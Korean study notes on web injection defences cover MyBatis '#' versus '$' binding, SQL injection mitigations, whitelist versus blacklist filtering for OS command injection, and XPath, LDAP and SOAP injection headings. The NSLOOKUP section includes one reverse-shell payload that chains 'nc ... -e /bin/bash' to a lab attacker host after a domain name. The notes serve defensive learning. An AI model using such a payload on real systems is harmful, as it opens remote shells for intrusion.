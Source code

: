 ### ORM

iBatis, myBatis, Hibernate 등

```sql
SELECT *
  FROM A
 WHERE 1=1
   AND USERID = #{puserid} -- # 기호는 PreparedStatement의 변수처럼 동작
   AND USERPW = ${puserpw} -- $ 기호는 단순 문자열 결합 형태
;
```

<br>

### SQL Injection 방어 기법

1. 정적 쿼리를 사용한다.

   = 구조화된 쿼리 실행 

   = 파라미터화된 쿼리 실행 

   = 입력값에 따라 쿼리문의 구조가 바뀌지 않도록 

   = PreparedStatement 객체를 이용하여 쿼리 실행

2. ORM 프레임워크를 사용하는 경우, 외부 입력값을 쿼리맵에 바인딩할 때 반드시 \# 기호를 사용한다.

3. 입력값을 검증한다.

   —> 외부 입력값에 쿼리 조작 문자열 포함 여부를 검증 후 쿼리문 생성 및 실행에 사용

4. 에러 메시지에 시스템 정보가 노출되지 않도록 한다.

   —> Error-Based SQL Injection 공격을 완화

5. DB 사용자 권한을 최소로 부여한다.

   = 해당 어플리케이션에서 사용하는 DB 객체에 대해서만 권한을 부여

   —> Stored Procedure 또는 UNION-Based SQL Injection 공격을 완화

<br>

### 운영체제 명령어 삽입 방어 기법

1. White List 방식
   - 허용 목록 사용
2. Black List 방식
   - 제한 목록 사용

<br>

입력값 유형 a, b, c 중 a는 안전하고 b, c는 안전하지 않은 경우,

허용 목록 = [ a ]

- a, b, c를 입력했을 때 a만 통과
- 검증되지 않은 새로운 입력 x, y가 있을 때에도 a만 통과

제한 목록 = [ b, c ]

- a, b, c를 입력했을 때 a만 통과
- 검증되지 않은 새로운 입력 x, y가 있을 때 a, x, y가 모두 통과하여 새로운 입력 유형에 대해 방어할 수 없음
- 모집합의 규모가 예측 불가능할 정도로 클 때 Black list 방식을 주로 사용

<br>

1. 운영체제 명령어 실행부의 필요성 여부를 검증 후, 대체 가능 여부를 판정한다.
2. 사용할 명령어를 미리 정의하고, 정의된 범위 내에서 사용되도록 White List를 이용한다.

<br>

### NSLOOKUP

도메인 주소를 입력하면 해당 IP 주소를 리턴해주는 명령어이다.

- Reverse shell 공격

> www.naver.com ; nc KALI#2 8282 -e /bin/bash
>
> // KALI#2의 8282포트로 연결한 후 /bin/bash를 실행

<br>

### XPath Injection

XPath : XML 문서를 검색 또는 읽기 위한 구문이다.

SQL의 WHERE절처럼 XPath 구문에도 해당 기능이 있다. 대괄호이다.

> [ name = '홍길동' ]

<br>

XQuery : 구조화된 쿼리를 지원

<br>

### LDAP Injection

### SOAP Injection

<br>



인증시도 횟수를 제한

인증정보를 생성, 관리